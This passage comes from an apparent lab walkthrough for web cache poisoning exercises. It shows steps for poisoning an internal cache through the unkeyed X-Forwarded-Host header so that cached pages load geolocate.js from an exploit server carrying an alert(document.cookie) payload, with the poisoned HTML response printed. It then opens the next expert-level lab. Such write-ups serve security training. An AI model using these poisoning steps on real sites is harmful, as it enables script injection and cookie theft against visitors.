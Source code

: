    Notice that you've been getting a cache hit for this fragment even with the cache-buster query parameter - the query string is **unkeyed** by the internal cache.
   
4. Remove the `X-Forwarded-Host` header and resend the request. 
   Notice that the internally cached fragment still reflects your exploit server URL, but the other two URLs do not. 
   Trick here is to send the request without the header while the fragment is still cached. (from 3 match you should go down to just one match)
   
   This indicates that the header is unkeyed by the internal cache but keyed by the external one. 
   Therefore, you can poison the internally cached fragment using this header.
   
5. Go to the exploit server and create a file at `/js/geolocate.js` containing the payload `alert(document.cookie)`. 
   Store the exploit.
   
6. Change the `X-Forwarded-Host` to point to exploit server
```http
-
X-Forwarded-Host: exploit-my.exploit-server.net
```

7. Remove the CB from the URL and send again and again until you get 4 matches for exploit server URL in the response. (one extra is lab link)

```html
	<link rel="canonical" href='//exploit-my.exploit-server.net/?cb=2'/>
	<title>Internal cache poisoning</title>
</head>
<body>
	<script type="text/javascript" src="//exploit-my.exploit-server.net/resources/js/analytics.js"></script>
	<script src=//exploit-my.exploit-server.net/js/geolocate.js?callback=loadCountry></script><script>trackingID='FxPeT0dDY6vIdi1Y'</script>

<!-- Lab link to exploit server - not important for us now -->
	<h2>Internal cache poisoning</h2>
	<a id='exploit-link' class='button' target='_blank' href='https://exploit-0a8200f103bf64df80851b6c01040007.exploit-server.net'>Go to exploit server</a>
```
   
This solves the lab.

## Web cache poisoning to exploit a DOM vulnerability via a cache with strict cacheability criteria

![Awesome Badges](https://img.shields.io/badge/level-expert-blueviolet)

This lab contains a DOM-based vulnerability that can be exploited as part of a web cache poisoning attack. 

A user visits the home page roughly once a minute. 
Note that the cache used by this lab has stricter criteria for deciding which responses are cacheable, so you will need to study the cache behavior closely.

To solve the lab, poison the cache with a response that executes `alert(document.cookie)` in the visitor's browser.
